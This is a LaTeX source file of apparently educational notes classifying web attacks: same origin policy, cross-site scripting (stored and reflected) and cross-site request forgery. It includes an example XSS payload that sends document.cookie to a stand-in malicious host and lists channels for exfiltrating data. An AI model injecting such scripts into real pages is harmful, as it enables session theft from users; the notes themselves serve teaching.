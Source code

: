 \documentclass[10pt,a4paper]{article}
\newtheorem{remark}{Remark}
\begin{document}
\subsection{Classification}
{\it Same origin policy:} scripts loaded inside a browser from the same domain can access each other's data/operations but they can not access data/operations belonging to another domain. This prevents leakage of sensitive data to a third party.\\\\
\textbf{Cross-site injection}\\
The attacker injects script code into the pages generated by a web application so that it apparently does not violate same origin policy. Then the script code sends sensitive information to a malicious server.
\begin{verbatim}
<script>
document.images[0].src = "http:/ev.com/i.jpg?stolencookie="+document.cookie;
</script>
\end{verbatim}
Data can be transmitted to a malicious host by
\begin{itemize}
\item Setting $document.location$
\item Changing $src$ for an image
\item Automatically submitting a form
\item Using asynchronous $HttpRequest$ messages
\end{itemize}
\textbf{Stored XSS}\\
The attacker stores the malicious script into a data store of the target web application.\\\\
\textbf{Reflected XSS}\\
The attacker stores the malicious script into a link, used by the victim to access a webpage.\\\\
\textbf{CSRF}\\
Example for Cross Site Request Forgery: the victim is logged in his banking account. by visitig a malicious website an invisible $1\times 1$ pixel image or iframe is loaded requesting a money transfer.
\begin{remark}
CSRF exploits the website's trust in the user while Stored XSS exploits the user's trust in the website
\end{remark}
\newpage
\section{Network}
\end{document}
